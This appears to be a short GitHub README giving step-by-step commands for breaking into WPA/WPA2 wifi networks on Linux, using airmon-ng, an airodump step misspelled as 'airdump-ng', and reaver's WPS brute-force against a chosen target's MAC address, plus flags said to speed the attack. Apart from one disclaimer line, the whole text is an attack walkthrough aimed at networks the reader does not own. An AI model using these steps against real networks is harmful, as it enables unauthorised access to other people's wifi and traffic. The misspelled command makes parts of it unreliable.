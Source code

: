 # How to crack wpa/wpa2 passwords with linux (tested on ubuntu and Elementary OS)

In order to crack wifi passwords with linux you need to install aircrack-ng and reaver

How to isntall aircrack-ng: www.aircrack-ng.org/install.html

Downloading reaver: https://code.google.com/p/reaver-wps/downloads/list

You might also need to install on you computer libpcap-dev and libsqlite3-dev, in order to do that just type the following lines in the terminal:
```
sudo apt-get install libpcap-dev
```
AND
```
sudo apt-get install libsqlite3-dev
```

## Now, Lets start the attack

### if next lines of code does not work, all you need to do is to type sudo in fron of each one

1. Firstly, discconect yourself from any wifi networks and type this code:
```
airmon-ng start wlan0
```

2. Next you need to put your wifi adapter into monitor mode, which will list all available wifi signals around you.
```
airdump-ng mon0
```
Once airdump list all availble wifi signals around, you can move to the next step, the actual attack.

3.After you decide which is you mark, all you need to do is to write this command with the marks mac adress in order to start the attack
```
reaver -i mon0 -b 00:11:22:33:44:55 -vv
```

## Cracking wifi passwords can be against the law in your country. You should not do this at all!

##TRICKS:

1. Speading the attack
```
reaver -i mon0 -b 00:01:02:03:04:05 -vv -d 0
```
OR
```
reaver -i mon0 -b 00:01:02:03:04:05 -vv --dh-small
```
